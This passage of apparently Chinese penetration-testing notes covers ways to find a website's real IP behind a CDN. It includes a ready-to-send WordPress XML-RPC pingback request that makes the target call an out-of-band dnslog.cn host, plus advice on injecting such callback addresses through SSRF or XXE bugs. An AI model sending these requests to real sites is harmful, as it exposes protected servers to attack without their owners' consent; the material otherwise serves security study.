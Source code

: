 ### 历史域名

- 很多网站在发展的过程中，会更换域名，比如京东以前的域名是 360buy.com ，后来斥巨资购买了 jd.com 。
- 网站在更换新域名时，如果将 CDN 部署到新的域名上，而之前的域名由于没过期，可能未使用 CDN，因此可以直接获得服务器 IP，所以，历史域名也是一个很重要的点。

### 通过 XML-RPC PINGBACK 通信

- XML-RPC 是支持 WordPress 与其他系统之间通信的规范，它通过使用 HTTP 作为传输机制和 XML 作为编码机制来标准化这些通信过程。
- 在 WordPress 的早期版本中，默认情况下已关闭 XML-RPC，但是从3.5版本开始，默认情况下开启。
- XML-RPC 支持 trackback 和 pingback。
- 虽然 WordPress 启用了 REST API 来代替 XML-RPC ，不过 XML-RPX 不会过时的，放心大胆的使用就好，虽然 XML-RPC 这个技术很老了，但依然可以通杀很多网站。

```http
POST /xmlrpc.php HTTP/1.1
Host: domain.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 323

<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>http://2vbis4.dnslog.cn</string></value>
</param>
<param>
<value><string>https://domain.com/</string></value>
</param>
</params>
</methodCall>
```



### APP

- 目标若存在APP，则APP可能通过IP直接与服务端进行通信，若最新版采用域名通信，也可尝试寻找历史版本进行分析。

> 历史版本宝贝一般很多

### 漏洞

- 如果目标网站本身存在漏洞的话，比如 SSRF、XXE、XSS、文件上传、命令执行等漏洞，或者我们找到的其他突破口，注入我们自己的带外服务器地址，然后在服务器上检查 HTTP 日志记录。
- 应用本身的错误会造成当传递一些错误的参数值或者错误的地址时，内部会抛出异常，也就是日常所说的报错，关注报错点，经常会泄露一些真实的 IP 地址或者内网 IP 段。

### 通过 virtual-host 碰撞

